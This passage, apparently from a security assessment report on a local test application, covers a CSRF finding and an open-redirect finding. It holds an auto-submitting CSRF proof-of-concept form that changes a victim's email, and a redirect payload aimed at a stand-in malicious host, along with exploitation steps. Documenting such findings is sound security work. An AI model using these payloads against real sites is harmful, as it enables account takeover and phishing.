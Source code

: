 #### Code Examples

**HTML:**
```html

<html>
  <body onload="document.getElementById('csrf-form').submit();">
    <form id="csrf-form" action="http://127.0.0.1:5000//account/settings" method="POST">
      <input type="hidden" name="update_email" value="malicious_value" />
    </form>
  </body>
</html>
```

#### Command Examples

#### Required Tools

- Custom HTML page
- Burp Suite
- OWASP ZAP

#### Potential Impact

- Unauthorized state-changing operations performed on behalf of the victim
- Account settings modifications
- Unauthorized financial transactions
- Data manipulation
- Privilege escalation
- Account takeover

---

### Open Redirect (Medium)

**Affected Component:** http://127.0.0.1:5000//redirect (url parameter)

**Description:** An attacker manipulates a redirect parameter in a vulnerable application, causing users to be redirected to a malicious site that may appear legitimate. This can be used in phishing attacks to steal credentials or distribute malware.

#### Step-by-Step Exploitation

1. Navigate to the vulnerable page: http://127.0.0.1:5000//redirect
2. Craft a malicious URL using the vulnerable parameter: url
3. Set the redirect destination to an attacker-controlled site
4. Send the crafted URL to potential victims

#### Example Payloads

```
https://legitimate-site.com/redirect?url=https://malicious-site.com
```

#### Code Examples

